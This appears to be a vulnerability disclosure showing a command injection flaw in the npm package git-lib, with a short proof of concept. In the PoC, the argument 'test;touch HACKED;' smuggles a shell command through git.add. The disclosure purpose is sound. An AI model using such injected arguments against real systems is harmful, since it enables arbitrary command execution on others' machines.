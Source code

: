 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var git = require("git-lib");
git
  .add("test;touch HACKED;")
  .then(function () {
    /** successfully added **/
  })
  .catch(function (err) {
    /** unsuccessful **/
  });
```

2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:

```bash
npm i git-lib # Install affected module
git init # Avoid problems with *git*
node poc.js #  Run the PoC
```

4. Recheck the files: now `HACKED` has been created
